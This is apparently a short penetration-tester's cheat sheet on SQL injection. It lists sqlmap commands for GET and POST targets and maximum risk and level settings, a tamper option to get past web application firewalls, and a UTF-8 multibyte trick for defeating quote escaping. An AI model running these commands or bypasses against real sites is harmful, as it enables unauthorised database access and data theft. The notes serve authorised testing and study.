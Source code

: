 # SQLi

## sqlmap

- https://github.com/sqlmapproject/sqlmap

```
# request in txt
sqlmap -r search-test.txt -p parameter

# post
sqlmap -o -u "http://example.com/index.php?id=1" --data="username=admin&password=pass&submit=+Login+" --method=POST
# get
sqlmap -u "http://example.com/index.php?id=1"

# with point of injection (*)
sqlmap -u "http://example.com/index.php?id=1*-133&debug=true"

# risk
sqlmap -u "http://example.com/index.php?id=1" --risk=3 --level=5
```

## Temper

The ability to create payloads that can bypass waf

- https://github.com/m4ll0k/Atlas

Example:
```
--tamper="between,randomcase"
```

## Tricks

Sometimes sites append an extra (') character in injection. It is possible to bypass this behavior by abusing UTF-8. 
\xc2 asks for a follow up byte, the decoding of \xc2' (\xc2\x27) would result in a bypass.

## Articles

| URL | 
| --- |
| https://www.binarytides.com/sqlmap-hacking-tutorial/ |
|https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html|
